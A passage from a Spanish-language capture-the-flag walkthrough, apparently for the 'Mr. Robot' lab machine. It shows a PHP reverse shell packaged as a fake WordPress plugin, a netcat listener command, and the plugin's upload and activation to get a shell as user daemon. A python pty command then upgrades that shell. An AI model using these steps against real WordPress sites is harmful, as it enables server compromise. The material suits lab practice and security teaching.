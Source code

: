Version: 1.0

Author: Shockz

Author URI: http://mrrobot.com

Text Domain: Shell

Domain Path: /languages

*/
```

Ahora necesitamos empaquetarlo todo en un zip.

```bash
sudo zip reverse.zip php-reverse-shell.php
```

Iniciaremos un listener, ya que esperamos una conexión por parte de nuestra víctima.

```nc -lvp 443```

Por último subiremos nuestro payload ```reverse.zip```

<p align="center"><img src="img/11.png"></p>

Pero esto no es suficiente ahora tenemos que activarlo, para ello volvemos a Plugins y clicamos en "Activate"

<p align="center"><img src="img/12.png"></p>

Tan pronto lo activemos, ya habremos obtenido una revese shell al usuario **daemon**

#
<h2 align="center">Continuando con la explotación</h2>

Ya sea por uno y otro método hemos conseguido una shell (o algo parecido.. ya que es una rawshell)

<p align="center"><img src="img/13.png"></p>

Vamos a mejorar nuestra shell y obtener una tty en condiciones

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Llegados a este punto podemos navegar por el sistema de ficheros, encontrando así el usuario **robot** ubicado en ```/home/robot```

<p align="center"><img src="img/14.png"></p>
